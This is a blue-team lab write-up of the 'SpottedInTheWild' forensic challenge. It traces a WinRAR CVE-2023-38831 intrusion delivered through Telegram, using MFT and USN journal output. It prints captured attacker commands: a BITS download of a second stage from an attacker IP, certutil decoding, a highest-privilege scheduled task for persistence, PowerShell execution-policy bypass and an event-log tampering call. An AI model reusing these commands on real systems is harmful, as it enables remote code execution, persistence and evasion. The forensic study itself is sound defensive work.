

# SpottedInTheWild Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/spottedinthewild/](https://cyberdefenders.org/blueteam-ctf-challenges/spottedinthewild/)

Suggested tools: Arsenal Image Mounter, SQLite Viewer, Eric Zimmerman Tools, NTFS Log Tracker, Registry Explorer, Event Log Explorer, Strings, CyberChef

Tactics: N/A

# Scenario

You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software.

# Questions

Q1- In your investigation into the FinTrust Bank breach, you found an application that was the entry point for the attack. Which application was used to download the malicious file?

Answer: Telegram

Reason: The malicious archive `SANS SEC401.rar` sits in `C:\Users\Administrator\Downloads\Telegram Desktop\`, Telegram's default download path, modified `2/2/2024 11:33 PM`. That path is the artifact confirming Telegram as the delivery vector.



Q2- Finding out when the attack started is critical. What is the UTC timestamp for when the suspicious file was first downloaded?

Answer: `2024-02-03 07:33:20`

Reason: The $MFT record for `SANS SEC401.rar` (in `Users\Administrator\Downloads\Telegram Desktop`) shows a creation time of `2024-02-03 07:33:20`. NTFS stores these timestamps in UTC natively, and the creation/modification/change times all cluster within the same minute, so there's no sign this was altered after the fact.

```bash
PS C:\Users\user\Desktop\Tools\Miscellaneous\Zimmerman Tools\net9> .\MFTECmd.exe -f 'E:\c\$MFT' --csv "C:\Users\user\Desktop\temp"
MFTECmd version 2026.5.0

row = {
    "Line": "27470",
    "Tag": "Unchecked",
    "Entry Number": "25765",
    "Sequence Number": "5",
    "Parent Entry Number": "25762",
    "Parent Sequence Number": "6",
    "In Use": "Checked",
    "Parent Path": r".\Users\Administrator\Downloads\Telegram Desktop",
    "File Name": "SANS SEC401.rar",
    "Extension": ".rar",
    "Is Directory": "Unchecked",
    "Has Ads": "Checked",
    "Is Ads": "Unchecked",
    "File Size": "29729",
    "Created0x10": "2024-02-03 07:33:20",
    "Created0x30": "",
    "Last Modified0x10": "2024-02-03 07:33:24",
    "Last Modified0x30": "2024-02-03 07:33:20",
    "Last Record Change0x10": "2024-02-03 07:34:15",
    "Last Record Change0x30": "2024-02-03 07:33:20",
    "Last Access0x10": "2024-02-03 21:03:58",
    "Last Access0x30": "2024-02-03 07:33:20",
    "Zone Id Contents": "",
    "Reparse Target": "",
    "Reference Count": "1",
    "SI<FN": "Unchecked",
    "u Sec Zeros": "Unchecked",
    "Copied": "Unchecked",
    "Source File": r"E:\c\$MFT",
    "Resident Data Base64": "",
    "Resident Data Hex": "",
    "Resident Data ASCII": "",
}
```

Q3- Knowing which vulnerability was exploited is key to improving security. What is the CVE identifier of the vulnerability used in this attack?

Answer: CVE-2023-38831

Reason: A hex dump of `SANS SEC401.rar` (via HxD) shows two entries both displayed as `SANS SEC401.pdf`, the folder-spoofing pattern behind CVE-2023-38831, where WinRAR launches a hidden script instead of the decoy file the victim thinks they're opening. Combined with the archive's delivery via Telegram and the scenario's explicit WinRAR reference, this is the exploited flaw.

**CVE Summary**

WinRAR allowed an attacker to craft a RAR archive where a file and a folder shared the exact same displayed name (in this case, both shown as `SANS SEC401.pdf`). When a victim double-clicked the file expecting to open a normal PDF, WinRAR's logic for deciding what to launch got confused by the naming collision and extracted/ran the hidden folder's contents instead, a malicious script, while still looking like a harmless document was opening. No file was corrupted and WinRAR didn't crash; it simply did exactly what its code told it to do, and that behavior turned out to be exploitable. RARLAB fixed this in `WinRAR 6.23` (August 2023) by correcting how the software matches and launches the selected entry when duplicate names exist.


Q4- In examining the downloaded archive, you noticed a file in with an odd extension indicating it might be malicious. What is the name of this file?

Answer: `SANS SEC401.pdf .cmd`

Reason: Inside the `SANS SEC401.rar` archive sits a folder named `SANS SEC401.pdf`, and inside that folder is the actual payload, `SANS SEC401.pdf .cmd`, a Windows batch script. The trailing space before `.cmd` keeps the visible name looking like a PDF, which is exactly the CVE-2023-38831 folder/file name-collision trick: the victim thinks they're opening a PDF, but WinRAR launches this script instead.


Q5- Uncovering the methods of payload delivery helps in understanding the attack vectors used. What is the URL used by the attacker to download the second stage of the malware?

Answer: `hxxp://172.18.35.10:8000/amanwhogetsnorest.jpg`

Reason: Running the decoded `.cmd` script under `cmdwatch` while polling `tasklist` surfaced a BITS (Background Intelligent Transfer Service) job attempting to pull a second-stage file from the attacker's server, failing only because this sandbox VM has no outbound network connectivity. The job's target URL and destination path were captured directly in the BITS transfer queue output.

```bash
PS C:\Users\user> python -m cmdwatch -d 2 -o C:\Users\user\Desktop\watch_output.txt tasklist

DISPLAY: 'Nothing' TYPE: DOWNLOAD STATE: TRANSIENT_ERROR
PRIORITY: NORMAL FILES: 0 / 1 BYTES: 0 / UNKNOWN
ERROR FILE:    http://172.18.35.10:8000/amanwhogetsnorest.jpg -> C:\Windows\Temp\amanwhogetsnorest.jpg
ERROR CODE:    0x80200010 - There are currently no active network connections. Background Intelligent Transfer Service
ERROR CONTEXT: 0x00000002 - The error occurred in the Background Intelligent Transfer Service (BITS) queue manager.
```

Q6- To further understand how attackers cover their tracks, identify the script they used to tamper with the event logs. What is the script name?

Answer: `Eventlogs.ps1`

Reason: Re-running the `.cmd` as Administrator confirmed the full chain: `certutil -decode amanwhogetsnorest.jpg normal.zip` extracts the downloaded file via a self-written `z.ps1` cradle, then `schtasks` successfully creates a scheduled task (`whoisthebaba` → `C:\Windows\Temp\run.bat`, highest privilege) for persistence, then the script cleans up after itself (`z.ps1` and the scheduled task both delete successfully this run). It then calls `powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1`, the event-log-tampering script. Since the original BITS download of `amanwhogetsnorest.jpg` failed in this sandbox (no outbound network), the resulting `normal.zip` never contained real content, so `Eventlogs.ps1` was never actually written to disk, explaining the "not found" error. The invocation line itself still confirms the script's name and role in the chain.

```bash
DISPLAY: 'Nothing' TYPE: DOWNLOAD STATE: CANCELLED
PRIORITY: NORMAL FILES: 0 / 1 BYTES: 0 / UNKNOWN
Transfer canceled.                                                                                                                                                                                                                                                                                                                 ^CTerminate batch job (Y/N)?                                                                                                                                                                                                                                                                                                       ^C                                                                                                                                                                                                                                                                                                                                 C:\Windows\Temp>certutil -decode amanwhogetsnorest.jpg normal.zip  1>nul                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              C:\Windows\Temp>echo Get-ChildItem -Path "C:\Windows\Temp" -Filter *.zip | Expand-Archive -DestinationPath "C:\Windows\Temp" -Force  1>C:\Windows\Temp\z.ps1

C:\Windows\Temp>cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"

C:\Windows\Temp>schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
SUCCESS: The scheduled task "whoisthebaba" has successfully been created.

C:\Windows\Temp>REM "If I win, you become my slave."

C:\Windows\Temp>del z.ps1

C:\Windows\Temp>del amanwhogetsnorest.jpg
Could Not Find C:\Windows\Temp\amanwhogetsnorest.jpg

C:\Windows\Temp>del normal.zip
Could Not Find C:\Windows\Temp\normal.zip

C:\Windows\Temp>del C:\Windows\system32\Tasks\whoisthebaba

C:\Windows\Temp>timeout /t 200 /nobreak  1>nul
Terminate batch job (Y/N)?
^C
C:\Windows\Temp>del C:\Downloads
Could Not Find C:\Downloads

C:\Windows\Temp>cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlogs.ps1"
C:\Windows\Temp\Eventlogs.ps1 : The term 'C:\Windows\Temp\Eventlogs.ps1' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ C:\Windows\Temp\Eventlogs.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Windows\Temp\Eventlogs.ps1:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

C:\Windows\Temp>del C:\Windows\Temp\Eventlogs.ps1
Could Not Find C:\Windows\Temp\Eventlogs.ps1
```

Q7- Knowing when unauthorized actions happened helps in understanding the attack. What is the UTC timestamp for when the script that tampered with event logs was run?

Answer: `2024-02-03 07:38:01`

Reason: Parsing the volume's USN journal (`$Extend\$J`) with MFTECmd turned up a record for `Eventlogs.ps1` showing a `FileDelete|Close` event at `2024-02-03 07:38:01`, meaning the script was created, used, and deleted (self-cleanup) at that timestamp, matching the attack's log-tampering step.

```bash
PS C:\Users\user\Desktop\Tools\Miscellaneous\Zimmerman Tools\net9> .\MFTECmd.exe -f "E:\C\`$Extend\`$J" --csv "C:\Users\user\Desktop\temp"
MFTECmd version 2026.5.0

row = {
    "Line": "278854",
    "Tag": "Unchecked",
    "Update Timestamp": "2024-02-03 07:38:01",
    "Parent Path": "",
    "Name": "Eventlogs.ps1",
    "Extension": ".ps1",
    "Entry Number": "107392",
    "Sequence Number": "6",
    "Parent Entry Number": "5611",
    "Parent Sequence Number": "1",
    "Update Sequence Number": "41846480",
    "Update Reasons": "FileDelete|Close",
    "File Attributes": "Archive",
    "Source File": r"E:\C\$Extend\$J",
}
```

Q8- We need to identify if the attacker maintained access to the machine. What is the command used by the attacker for persistence?

Answer: `schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST`

Reason: This command was captured while re-running the `.cmd` script as Administrator. It creates a scheduled task named `whoisthebaba` that runs `C:\Windows\Temp\run.bat` every 3 minutes with the highest available privilege level, giving the attacker recurring execution on the host as a persistence mechanism.

Q9- To understand the attacker's data exfiltration strategy, we need to locate where they stored their harvested data. What is the full path of the file storing the data collected by one of the attacker's tools in preparation for data exfiltration?

Answer: `C:\Users\Administrator\AppData\Local\Temp\BL4356.txt`

Reason: Found a `run.ps1` script on the mounted disk at `C:\Windows\Temp\run.ps1`, which embeds its real logic as a reversed base64 string, deobfuscated by reversing the string and then UTF-8-decoding it in PowerShell. The decoded script is a network/host scanner that sweeps `192.168.1.1` through `192.168.1.99` and writes its findings to `$env:UserProfile\AppData\Local\Temp\BL4356.txt`, which resolves to `C:\Users\Administrator\AppData\Local\Temp\BL4356.txt` since the attacker operated as the Administrator profile.

```bash
# .ps1 found in artifact C:\Windows\Temp\run.ps1 on mounted disk

PS C:\Users\user\Desktop\Tools\Miscellaneous\Zimmerman Tools\net9> $best64code = "K0[...]0NHJ" ;
PS C:\Users\user\Desktop\Tools\Miscellaneous\Zimmerman Tools\net9> $base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null ;
PS C:\Users\user\Desktop\Tools\Miscellaneous\Zimmerman Tools\net9> $LOAdCode = [System.TexT.EncOdING]::uTF8.gETStrING([SYSTeM.COnvErT]::FROmBAse64strIng("$baSE64")) ;
PS C:\Users\user\Desktop\Tools\Miscellaneous\Zimmerman Tools\net9> echo $LOAdCode
$startIP = "192.168.1.1"
$endIP = "192.168.1.99"
$outputFile = "$env:UserProfile\AppData\Local\Temp\BL4356.txt"

[...]
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| `2024-02-03 07:33:20` | Initial Access | Victim downloads `SANS SEC401.rar` via Telegram Desktop, delivered to `C:\Users\Administrator\Downloads\Telegram Desktop\` | `T1566` |
| `2024-02-03 07:33:24` | Execution | Archive opened in WinRAR; `CVE-2023-38831` folder/file name-collision exploit launches hidden `SANS SEC401.pdf .cmd` instead of the decoy `SANS SEC401.pdf` | `T1204.002`, `T1211` |
| Unknown (sandbox, no timestamp) | Command and Control | Script attempts BITS download of stage-2 payload from `hxxp://172[.]18[.]35[.]10:8000/amanwhogetsnorest.jpg` to `C:\Windows\Temp\` | `T1105`, `T1197` |
| Unknown (sandbox, no timestamp) | Defense Evasion | `certutil -decode amanwhogetsnorest.jpg normal.zip` rebuilds archive from disguised download; extracted via self-written `z.ps1` cradle | `T1140`, `T1027` |
| Unknown (sandbox, no timestamp) | Persistence | `schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST` creates recurring highest-privilege task | `T1053.005` |
| `2024-02-03 07:38:01` | Defense Evasion | `Eventlogs.ps1` executed to tamper with Windows Event Logs | `T1070.001` |
| Unknown (sandbox, no timestamp) | Discovery / Collection | `run.ps1` (reversed-base64-obfuscated) sweeps `192.168.1.1`–`192.168.1.99` and writes results to `C:\Users\Administrator\AppData\Local\Temp\BL4356.txt` | `T1046`, `T1005`, `T1027` |

## Attack Tree

```bash
[Telegram Desktop download]  ← attacker → victim
    └── `SANS SEC401.rar` saved to `Downloads\Telegram Desktop\`
        └── victim opens archive in WinRAR
            └── [Stage 1 — Exploitation]
            │   └── `CVE-2023-38831` folder/file name collision (`SANS SEC401.pdf` file vs. folder)
            │       └── `SANS SEC401.pdf .cmd` launched instead of decoy  ← initial code execution
            └── [Stage 2 — Second-Stage Delivery]
                └── BITS job requests `hxxp://172[.]18[.]35[.]10:8000/amanwhogetsnorest.jpg`
                    └── `certutil -decode` rebuilds `normal.zip`
                        └── `z.ps1` extracts archive contents
                            ├── [Stage 3 — Persistence]
                            │   └── `schtasks` creates `whoisthebaba` task → `run.bat` every 3 min, highest privilege
                            ├── [Stage 4 — Defense Evasion]
                            │   └── `Eventlogs.ps1` tampers with Windows Event Logs
                            └── [Stage 5 — Discovery / Collection]
                                └── `run.ps1` (reversed base64) scans `192.168.1.1`–`192.168.1.99`
                                    └── results written to `BL4356.txt`  ← staged for exfiltration
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery | Application | `Telegram Desktop` |
|  | Archive | `SANS SEC401.rar` |
|  | Download path | `C:\Users\Administrator\Downloads\Telegram Desktop\SANS SEC401.rar` |
|  | Download timestamp (UTC) | `2024-02-03 07:33:20` |
| Exploit | CVE | `CVE-2023-38831` |
|  | Mechanism | WinRAR folder/file name-collision in temp-extract-and-launch logic |
|  | Patched version | `WinRAR 6.23` |
| Dropped File | Payload | `SANS SEC401.pdf .cmd` |
|  | Extraction helper | `C:\Windows\Temp\z.ps1` |
|  | Log-tampering script | `C:\Windows\Temp\Eventlogs.ps1` |
|  | Recon script | `C:\Windows\Temp\run.ps1` |
|  | Collected data file | `C:\Users\Administrator\AppData\Local\Temp\BL4356.txt` |
| Network | Second-stage URL | `hxxp://172[.]18[.]35[.]10:8000/amanwhogetsnorest.jpg` |
|  | Second-stage IP | `172[.]18[.]35[.]10` |
|  | Second-stage port | `8000` |
|  | Delivery mechanism | BITS (`bitsadmin`/BITS job) |
| Persistence | Command | `schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST` |
|  | Task name | `whoisthebaba` |
|  | Target binary | `C:\Windows\Temp\run.bat` |
| Obfuscation | Technique | Reversed base64 string, decoded via `[System.Convert]::FromBase64String` |
|  | Source script | `C:\Windows\Temp\run.ps1` |
| Discovery | Scan range | `192.168.1.1`–`192.168.1.99` |
| Anti-Forensics | Timestamp (UTC) | `2024-02-03 07:38:01` |
|  | Technique | Event log tampering via `Eventlogs.ps1` |

# Lab Insights

- **A disguised extension is a design flaw, not a bug:** `CVE-2023-38831` worked not because WinRAR crashed or mishandled malformed data, but because its intended behavior (matching an entry by displayed name) could be tricked by a legitimate-looking name collision. This lab is a reminder that "the software did exactly what it was told to" and "the software is secure" are not the same claim.
- **Messaging apps are a blind spot for download provenance:** the entire intrusion traces back to a file landing in `Telegram Desktop`'s default download folder, a path most endpoint monitoring treats as just another user download, not a delivery channel worth the same scrutiny as a browser or email client.
- **Static beats dynamic when the content isn't actually encrypted:** every attempt at polling-based dynamic capture (`cmdwatch` + `tasklist`/`wmic`) either missed the detail or added unnecessary complexity, while simply printing the `.cmd` file's raw text (`type`) immediately exposed the entire multi-stage chain in plaintext. Obfuscation that merely *looks* unreadable in one tool (encoding mismatch in Notepad++) is not the same as content that is actually protected.
- **Partial execution in an isolated sandbox still answers most of the chain:** even with no outbound network and several commands failing (Access Denied without admin, "Could Not Find" for never-downloaded files), re-running the script with elevated privileges and tracing each failure point reconstructed the full intended attack flow, persistence, log tampering, and reconnaissance, without ever needing the attacker's live C2 infrastructure.
- **Self-cleaning scripts leave their footprints in the USN journal, not the MFT:** `Eventlogs.ps1` was deleted immediately after use, making it invisible in a straight directory listing, but its create/use/delete lifecycle was still fully timestamped in `$Extend\$J`, reinforcing that deletion-aware artifacts are essential whenever a script's job includes anti-forensics.